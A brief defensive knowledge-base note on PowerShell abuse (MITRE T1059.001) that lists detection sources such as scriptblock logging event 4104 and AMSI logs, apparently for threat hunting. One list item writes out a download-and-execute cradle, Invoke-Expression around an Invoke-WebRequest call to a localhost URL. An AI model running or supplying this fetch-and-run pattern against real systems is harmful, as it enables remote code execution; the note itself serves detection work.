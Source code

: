 PowerShell || 
</br>
Tracked in MITRE ATT&CK as Command & Scripting Interpreter: PowerShell(T1059.001)
</br>
<h1>KB</h1>
<ul>
<li>Check For --> Scriptblock logging: event id 4104. ( warning vs verbose scriptblock logging )<li>
<li>Invoke-ObFuscation<li>
<li>Invoke-WebRequest<li>
<li>AMSI.log --> Event ID:8029 MSI and Script<li>
<li>Invoke-Expression "IWR 'https://127.0.0.1/a' -UseBasicParsing | Select -ExpandProperty Content"<li>
</ul>
</br>
Reference:</br>
1. https://www.youtube.com/watch?v=FDpAAY8haUU&t